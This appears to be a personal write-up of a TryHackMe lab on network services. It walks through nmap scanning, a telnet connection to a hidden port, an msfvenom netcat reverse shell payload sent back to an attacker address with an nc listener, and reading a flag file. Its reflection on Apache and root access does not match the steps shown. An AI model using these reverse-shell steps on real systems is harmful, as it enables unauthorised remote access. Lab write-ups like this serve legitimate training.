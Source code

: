 ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/f979b8e5-5f41-42d5-8bf0-a02f863ecc8c)![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/102683de-0cb6-454e-87cd-c3479e87a596)# Documentation: TryHackMe Cyber Defense #02

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenges
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access target's assets by exploiting vulnerable services to exfiltrate valuable data

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**:
    - Port Scanning:
    	- `nmap -A 10.10.177.199`
         - Shows that top 1000 ports are not open
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/26a37547-6cf4-4d6c-9011-fb3af482edcd)
      - `nmap -A -p 8000-9000 10.10.177.199` -vv
         - Scanned ports between 8000-9000 and discovered an open port 8012/tcp
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/4ce2baa3-4768-4b60-8d4b-9ac6d15922f9)

  - **Findings**:
	The open port is 8012
    	A possible username might be Skidy
        - Service might be a backdoor 

### 3.3 Exploitation
- **Vulnerability Identification**: Telnet vulnerability
  - **Techniques Used**:  Exploit using netcat reverse shell payload in the telnet server

- **Exploitation Process**:
  
	- Enter `telnet 10.10.177.199 8012`  now you can connect to the telnet server using the discovered port 8012
   	
        ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/e6bcd72f-8053-46dc-837c-6ca396e0d149)

	- Enter `msfvenom -p cmd/unix/reverse_netcat lhost=10.17.64.194 lport=4444 R` to generate a reverse shell payload using msfvenom
	  
   	![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/56f3c19c-bd00-4d59-98f6-7f47da11b424)

  	- Enter `nc -lvp 4444` to start netcat lister to listen for inbound connection and see data
	![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/cef1919e-40fc-4e27-b83b-7e1cbd3e0f18)

	- Copy the payload into the telnet server CLI and press enter
   	![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/09af501b-3792-4d1d-9fa7-0dc51f9f299d)

   	- Go to the netcat lister and enter `ls` it will show the file flag.txt
  	![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/bad9f0bf-77d9-4770-90d3-5240f7384d8a)

	- Enter `cat flag.txt` to capture the flag
   	![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/d4896955-1e10-4cb3-9576-65c33d4684c5)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

